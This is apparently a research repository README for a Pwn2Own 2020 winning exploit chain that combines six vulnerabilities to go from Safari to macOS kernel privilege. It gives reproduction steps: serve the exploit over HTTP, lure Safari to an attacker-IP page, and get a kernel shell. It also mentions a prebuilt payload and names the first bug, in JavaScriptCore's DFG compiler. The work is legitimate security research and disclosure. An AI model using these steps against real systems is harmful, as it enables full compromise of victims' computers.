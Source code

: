 Compromising the macOS Kernel through Safari by Chaining Six Vulnerabilities
======================================================================================

Overview
---------
This repository contains exploitation and technical details of [our Pwn2Own
2020 winning submission targeting Apple Safari with a kernel escalation
of privilege for macOS 10.15.3](https://www.thezdi.com/blog/2020/3/17/welcome-to-pwn2own-2020-the-schedule-and-live-results).
For further information, you can also check [our Blackhat USA 2020
slides](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf)
and [video](https://www.youtube.com/watch?v=1M-oQY8ujVU).
This repository also includes [our demo video](./movie.mov) for the succesful
exploitation.


How to reproduce
-----------------

1. Run the HTTP server using python3 in the exploits folder.

```shell
$ python3 -m http.server 80
```

2. Access the website with attacker server's IP with Safari:

```
http://[attacker_ip]/exploit.html
```

3. Wait for Calculator (usually popped in ten seconds, but if unlucky, it will
take some time) and a terminal with kernel privilege. To show our kernel
privilege escalation, we disabled SIP. You can check by running the
`csrutil status` command, which will show `disabled`.


Build from source
-----------------
For your convenience, we provided a compiled payload, `payload.js`. But, if you
want, you can build it by yourself. Note that this will take a very long time
because we will build WebKit as a part of our exploit chain. It is worth to noting
that we only tested our building process in Mac OS.

```shell
# Install xcode first
$ python3 -m pip install --user lief
$ make
```

Technical details
-----------------

To make this exploit, we chained the following *SIX* vulnerabilities.

### 1. Remote code execution in Safari via incorrect side-effect modeling of 'in' operator in JavaScriptCore DFG compiler
